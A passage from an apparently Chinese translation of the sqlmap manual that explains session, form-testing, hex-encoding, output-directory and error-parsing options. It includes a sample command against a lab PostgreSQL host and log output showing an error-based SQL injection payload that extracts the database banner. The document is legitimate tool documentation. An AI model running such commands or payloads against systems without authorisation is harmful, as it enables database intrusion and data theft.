 #### **3.15.12 刷新session文件**
> 参数：--flush-session

你可以使用选项`--flush-session`刷新session文件的内容，这样可以避免在sqlmap中默认实现的缓存机制。也可以手动删除会话文件。

#### **3.15.13 分析和测试表单的输入字段**
> 开关 --forms

如果你想对一个页面的form表单中的参数进行测试，可以使用`-r`读取请求文件，或者通过`--data`参数测试。 但是当使用`--forms`参数时，sqlmap会自动从-u中的url获取页面中的表单进行测试。

#### **3.15.14 忽略在会话文件中存储的查询结果**
> 开关 --fresh-queries

忽略session文件保存的查询，重新查询。

#### **3.15.15 使用DBMS hex函数**
> 开关 --hex

在检索非ASCII数据经常发生数据丢失情况。这个问题的一个解决方案是使用DBMS十六进制函数。通过该开关打开，数据在被检索之前被编码为十六进制格式，然后被解码为原始格式。

针对PostgreSQL目标的示例：
```
python sqlmap.py -u "http://192.168.48.130/sqlmap/pgsql/get_int.php?id=1" --banner --hex -v 3 --parse-errors
```
结果：
```
[...]
[xx:xx:14] [INFO] fetching banner
[xx:xx:14] [PAYLOAD] 1 AND 5849=CAST((CHR(58)||CHR(118)||CHR(116)||CHR(106)||CHR
(58))||(ENCODE(CONVERT_TO((COALESCE(CAST(VERSION() AS CHARACTER(10000)),(CHR(32)
))),(CHR(85)||CHR(84)||CHR(70)||CHR(56))),(CHR(72)||CHR(69)||CHR(88))))::text||(
CHR(58)||CHR(110)||CHR(120)||CHR(98)||CHR(58)) AS NUMERIC)
[xx:xx:15] [INFO] parsed error message: 'pg_query() [<a href='function.pg-query'
>function.pg-query</a>]: Query failed: ERROR:  invalid input syntax for type num
eric: ":vtj:506f737467726553514c20382e332e39206f6e20693438362d70632d6c696e75782d
676e752c20636f6d70696c656420627920474343206763632d342e332e7265616c20284465626961
6e2032e332e322d312e312920342e332e32:nxb:" in <b>/var/www/sqlmap/libs/pgsql.inc.p
hp</b> on line <b>35</b>'
[xx:xx:15] [INFO] retrieved: PostgreSQL 8.3.9 on i486-pc-linux-gnu, compiled by 
GCC gcc-4.3.real (Debian 4.3.2-1.1) 4.3.2
[...]
```
#### **3.15.16 自定义输出目录路径**
> 参数 --output-dir

默认情况下，sqlmap将会话和结果文件存储在子目录output文件夹中。如果你想自定义路径，你可以使用这个选项（例如`--output-dir = / tmp`）。

#### **3.15.17 从响应中获取DBMS的错误信息**
> 开关 --parse-errors

如果Web应用程序配置为调试模式，则它会在HTTP响应中显示错误消息，sqlmap可以解析并显示它们。这对于调试目的非常有用，例如弄清楚为什么枚举不起作用，这可能是会话用户权限的问题，在这种情况下，您会看到一条DBMS错误消息，该消息显示`Access denied for user <SESSION USER>`
